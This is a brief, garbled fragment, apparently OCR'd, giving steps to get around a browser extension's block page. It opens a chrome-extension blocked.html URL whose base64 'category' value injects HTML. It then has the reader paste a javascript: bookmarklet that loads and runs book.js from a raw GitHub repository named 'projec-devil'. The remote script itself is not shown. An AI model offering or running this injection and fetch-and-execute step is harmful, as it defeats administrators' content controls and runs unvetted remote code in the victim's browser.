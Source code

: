 Go to <p>
chrome-extension://iheobagjkfklnlikgihanlhcddjoihkg/blocked.html?category=PGEgaHJlZj0nYWJvdXQ6YmxhbmsnIHRhcmdldD0nX2JsYW5rJyByZWw9J29wZW5lcic%2BdGVzdHM8L2E%2B <p/>
Then click tests <p/>

and paste this code

javascript:(function () {var a = document.createElement('script');a.src = 'https://raw.githubusercontent.com/projec-devil/bison/main/book.js';document.body.appendChild(a);}())
